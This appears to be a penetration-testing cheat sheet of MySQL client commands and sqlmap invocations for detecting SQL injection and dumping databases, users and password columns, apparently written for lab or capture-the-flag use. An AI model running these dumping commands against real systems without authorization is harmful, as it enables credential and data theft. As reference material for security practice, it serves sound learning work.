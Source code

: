 # MySQL

Connect to a MySQL server

```bash
# Local service
mysql -u acuity -pSuperStr00ng!

# Remote service
mysql -u acuity -p -h <IP> -P 3306
```

List all databases

```sql
show databases;
```

Select a database

```sql
use name_of_database;
```

List all tables in the active database

```sql
show tables;
```

List content of a table

```sql
# List all content
select * from name_of_table;

# Define a more specific selection
select username, password from users where username = 'HTB';
```

### SQLMap

An open source penetration testing tool that automates the process of detecting and exploiting SQL injection flaws and taking over of database servers. [https://sqlmap.org/](https://sqlmap.org/)

#### Basic Data Enumeration

```bash
# Check version, user, db name and admin permissions
sqlmap -u "http://www.acuity.lab/?id=1" --banner --current-user --current-db --is-dba
```

#### Table Enumeration

```bash
# Dump everything from MySQL server (no system databases)
sqlmap -u "http://www.example.com/?id=1" --dump-all --exclude-sysdbs

# Dump everything from a specific database
sqlmap -u "http://www.example.com/?id=1" -D database --dump

# Enumerate all tables within the specified DB
sqlmap -u "http://www.example.com/?id=1" --tables -D database

# Dump all data from the specified table
sqlmap -u "http://www.example.com/?id=1" --dump -T users -D database

# Dump only specific columns from specified table
sqlmap -u "http://www.example.com/?id=1" --dump -T users -D database -C name,password

# Limit rows dumped by ordinal numbers
sqlmap -u "http://www.example.com/?id=1" --dump -T users -D database --start=2 --stop=3

# Dump data based on matched conditions
sqlmap -u "http://www.example.com/?id=1" --dump -T users -D database --where="name = 'acuity'"

# alternative
sqlmap -u "http://www.example.com/?id=1" --dump -T users -D database --where="name LIKE 'acu%'"

```
